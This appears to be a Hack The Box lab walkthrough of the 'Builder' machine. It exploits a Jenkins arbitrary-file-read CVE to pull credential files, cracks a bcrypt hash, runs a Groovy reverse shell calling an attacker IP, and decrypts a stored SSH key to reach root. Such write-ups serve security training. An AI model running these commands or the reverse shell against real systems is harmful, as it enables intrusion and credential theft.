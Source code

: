 https://www.hackthebox.com/achievement/machine/1777380/591

1-Discover Jenkins Instance
2-Exploit CVE-2024-23897  (Arbitrary File Read)
3-Target specific Jenkins directories to extract credentials:
- `/var/jenkins_home/users/` (User data)
- `/var/jenkins_home/secrets/` (Encryption secrets)
- `/var/jenkins_home/config.xml` (Usernames & password hashes)

4-Extract Jenkins Credentials
5-Jenkins Admin Panel Access
6-Extract Encrypted SSH Key
7-SSH into the machine
8-escalate privilege

---

## Enumeration
```bash
┌──(pwn㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- -T4 10.10.11.10 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
-Jenkins User ID: jennifer
-Jenkins 2.441
https://www.jenkins.io/security/advisory/2024-01-24/
https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

```bash
Using the client

The general syntax for invoking the client is as follows:

java -jar jenkins-cli.jar [-s JENKINS_URL] [global options...] command [command options...] [arguments...]
```

expandAtFiles:
When Jenkins sees an argument like `@/etc/passwd`, it reads the **contents** of that file and processes it as part of the command.

## Pre-exploitation

```
┌──(pwn㉿kali)-[~/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help      

```
-i should figure out how jenkins stores it files and where == path
-we may use docker it replicate the env without installation guide
```bash
/var/jenkins_home/users/username/config.xml
@/var/jenkins_home/users/admin_randomnumber/config.xml"
@/var/jenkins_home/users/users.xml"
to find the random for jennifer
there will be hash
as an exmaple
```

```bash
┌──(pwn㉿kali)-[~/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/users.xml'

      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" 

```

```bash
@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```
---

```bash
┌──(pwn㉿kali)-[~/builder]
└─$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```
-<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```bash
┌──(pwn㉿kali)-[~/builder]
└─$ hashcat -m 3200 bcrypt_hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess

```
CREDS:
jennifer : princess
-log in jenkins with creds
![[Pasted image 20250224160325.png]]

![[Pasted image 20250224162301.png]]

```bash
String host="10.10.14.5";
int port=9998;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---
```bash
jenkins@0f52c222a4cc:/$ ls
ls
bin
boot
dev
etc
home
..
..


```
---

## Post-exploitation
![[Pasted image 20250224162549.png]]

user.txt pwned


---
```bash
jenkins@0f52c222a4cc:~$ cat credentials.xml

<username>root

<privateKey>{AQAAABAAAAowLrfCrZx9baWliwrtCiwCyztaYVoYdkPrn5qEEYDqj5frZLuo4qcqH61hjEUdZtkPiX6buY1J4YKYFziwyFA1wH/X5XHjUb8lUYkf/XSuDhR5tIpV..snip....KSM=}</privateKey>

```
-hudson.util. decryption

```bash
println( hudson.util.Secret.decrypt("{AQAAABAAAAowLrfCrZx9baWliwrtCiwCyztaYVoYdkPrn5qEEYDqj5frZLuo4qcqH61hjEUdZtkPiX6buY1J4YKYFziwyFA1wH/X5XHjUb8lUYkf/XSuDhR5tIpVWwkk7l1FTYwQQl/i5MOTww3b1QNzIAIv41KLKDgsq4WUAS5RBt4OZ7v410VZgsnip..............jkOhGTjc7pGAg2zl10O84PzXW1TkN2yD9YHgo9xYa8E2k6pYSpVxxYlRogfz9exupYVievBPkQnKo1Qoi15+eunzHKrxm3WQssFMcYCdYHlJtWCbgrKChsFys4oUE7iW0YQ0MsAdcg/hWuBX878aR+/3HsHaB1OTIcTxtaaMR8IMMaKSM=}") )
```
![[Pasted image 20250224164403.png]]

```bash
┌──(pwn㉿kali)-[~/builder]
└─$ sudo chmod 600 key

┌──(pwn㉿kali)-[~/builder]
└─$ sudo ssh -i key root@10.10.11.10

root@builder:~# cat root.txt 
2........................e57

```

![[Pasted image 20250224164607.png]]